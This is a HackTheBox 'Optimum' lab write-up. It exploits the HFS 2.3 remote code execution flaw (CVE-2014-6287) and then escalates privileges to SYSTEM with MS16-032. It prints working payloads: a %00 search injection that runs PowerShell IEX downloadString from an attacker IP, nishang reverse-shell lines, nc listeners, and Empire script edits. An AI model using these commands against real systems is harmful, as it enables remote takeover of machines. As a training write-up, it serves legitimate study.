


## Reconnaissance

### nmap 

- Only port 80 HTTPFileSystem


### Web Application

- Browse the File System
- It's based on HTTP File System 2.3


- Search Exploit code for HTTP File System 2.3
```
searchsploit HFS | grep 2.3
```


- The work exploit code is 49584 python.
- And here is some research for this vulnerability ([CVE-2014-6287](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6287))
> The findMacroMarker function in parserLib.pas in Rejetto HTTP File Server (aks HFS or HttpFileServer) 2.3x before 2.3c allows remote attackers to execute arbitrary programs via a %00 sequence in a search action.


- According to the description, the vulnerability happend on the search function.
- Through %00 sequence to append command.
- The vulnerability happend by **scripting command**
- According to this article : [HFS: Scripting Command](https://www.rejetto.com/wiki/index.php/HFS:_scripting_commands)


- We can use following script to execute RCE. ```
```
exec | <file> or <command>
```


## Exploit 

- Now I will try to exploit manually and exploit by existing code
### Manually

1. Access to target page ```
```
http://<target IP> :80
``` 
and insert %00  in search value 


2. Intercept above request in Burp
 

3. Append the Ping command to confirm the RCE work or not

   
4.  Editing powershell reverse script from [nishang](https://github.com/samratashok/nishang), adding the following to the bottom of the file.

```Invoke-PowerShellTcp
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.17.145 -Port 1337
```

5. Create SimpleHTTPServer, change the RCE, and observe the httpserver log

```
%00{.exec|C:\Windows\SysNative\WindowsPowerShell\\v1.0\powershell.exe%20IEX(New-Object Net.Webclient).downloadString('http://10.10.17.145:9797/PStcp.ps1').}
```


6.  Observe the nc listener
     

7.  Check Systeminfo
   


### Exploit by 49584.py

- Exploit Code



- According to this article, we know there are different architecture (x86 / x64)'s powershell.
	- x86 PowerShell 
		- C:\\Windows\\System32
		- C:\\Windows\\SysWow64
	- x64 PowerShell 
		- C:\\Windows\\SysNative
- PowerShell architecture x64 check 

```
[Environment]::Is64BitProcess
```

- Execute python code


- Check Systeminfo


- User Flag:


## Post Exploitation 

- First copy systeminfo (In here, I create a file named optimum.txt)


- windows-exploit-suggester update


- Execute windows-exploit-suggester
```
./windows-exploit-suggester.py --database 2023-05-16-mssb.xls --systeminfo optimum.txt
```


- Since we need to enum all vuln which sherlock mentioned.
```
grep -i function Sherlock.ps1
```


- Edit Sherlock, add the following line to the bottom of the file 
```
Find-AllVulns
```


- Execute Sherlock in Powershell reverse shell
```
IEX(New-Object Net.Webclient).downloadString('http://10.10.17.145:9797/Sherlock.ps1')
```
- Find 3 possible privilege escalation vulnerabilies
1. ms16-032
2. ms16-034
3. ms16-135


- Search [(ExploitDB)ms16-032](https://www.exploit-db.com/exploits/39719)
- Search Exploit Result 
```
searchsploit ms16-032
```

- But if we execute this PS file, it won't success, since this ps script file only execute cmd as rev shell, it's popping up a windows on machine
  
- But we only have command prompt, we don't have a full internet session with GUI, so this ps file won't work.
- But Empire also provide the modification about this part.
- [Empire-ms16-032](https://github.com/EmpireProject/Empire/blob/master/data/module_source/privesc/Invoke-MS16032.ps1)


### Privilege Escalation 

- Edit the ms16032.ps1 from Empire data directory, here is a sample for executing, follow it to editing the file.

- Add the following to the bottom of the empire ms-16-032 powershell file.
```
Invoke-MS16032 -Command "IEX(New-Object Net.Webclient).downloadString('http://10.10.17.145:9797/shell.ps1')" 
```
- Copy Invoke-PowershellTCP file to connect to port 1338 and named it as shell.ps1
```
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.17.145 -Port 1338
```
- Create Listener on port 1338
```
nc -nlvp 1338
```
- Execute the download script in powershell to download and execute the exploit code
- Get System Shell String will show 

```
IEX(New-Object Net.Webclient).downloadString('http://10.10.17.145:9797/ms16032.ps1')
```


- Check nc listener on port 1338 


- Get Root Flag


## Note


## Reference 

- [(Video)ippsec-Optimum](https://www.youtube.com/watch?v=kWTnVBIpNsE)
- [HFS: Scripting Command](https://www.rejetto.com/wiki/index.php/HFS:_scripting_commands)
- [CVE-2014-6287](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6287)
- [(GITHUB)nishang](https://github.com/samratashok/nishang)
- [(GITHUB)sherlock powershell file](https://github.com/rasta-mouse/Sherlock)
- [PowerShell Version, Edition and Architecture Checks](https://zzz.buzz/2017/09/11/powershell-version-edition-and-architecture-checks/)
- [(ExploitDB)MS16-032](https://www.exploit-db.com/exploits/39719)
- [(GITHUB)Empire Powershell](https://github.com/EmpireProject/Empire)
- [Empire ms-16-032 PS file](https://github.com/EmpireProject/Empire/blob/master/data/module_source/privesc/Invoke-MS16032.ps1)

###### tags: `HackTheBox`,  `Windows`, `MS16-032`, `HFS 2.3`, `Empire PowerShell` 

